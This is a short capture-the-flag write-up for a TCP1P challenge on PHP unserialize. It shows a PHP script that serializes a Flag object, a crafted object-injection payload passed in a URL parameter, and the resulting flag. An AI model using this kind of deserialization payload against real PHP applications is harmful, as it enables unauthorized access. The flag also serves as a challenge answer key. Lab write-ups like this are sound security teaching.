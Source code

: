 # PHP Unserialize 
> Write-up author: jon-brandy
## DESCRIPTION:
Apakah kamu tahu unserialize di php?

http://ctf.tcp1p.com:32116/

## HINT:
- NONE
## STEPS:
1. First open the link given.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/214860552-6fe49e50-8480-49f4-8ef3-3d7ed0a1e99a.png)


2. Analyzing the php script, we know that we need to specify the value of 'a' parameter so we can get the flag.
3. Well i did a small outsource about `unserialize()` function in php.

![image](https://user-images.githubusercontent.com/70703371/214862485-50031694-9464-4f8b-ae06-7ffca26646c2.png)


4. So we need to convert a the class flag as the new object so we can use it (because if we want to access the class, we need to convert it to a new object), change the bool value of `$isflag` to true and serialized the user input, then echo it. 

> PHP SCRIPT 

```php
<?php
class Flag
{
	public function get_flag() // public function -> can be accessed outside the class scope
	{
	  readfile("../flag.txt");
	}
	public bool $isflag = true;
}

$userInput = new Flag; // convert flag from class to new Object
echo serialize($userInput);

?>
```

> OUTPUT

![image](https://user-images.githubusercontent.com/70703371/214871146-3ae99054-bea6-464d-b6b8-7f3a45f720a1.png)


5. Now let's change the url to this:

```
http://ctf.tcp1p.com:32116/?a=O:4:%22Flag%22:1:{s:6:%22isflag%22;b:1;}
```

> OUTPUT

![image](https://user-images.githubusercontent.com/70703371/214871233-44ca9ed8-64a7-463b-8c37-8168ca9984b7.png)


6. Got the flag!

## FLAG

```
TCP1P{unserialize_in_php_to_get_the_flag}
```
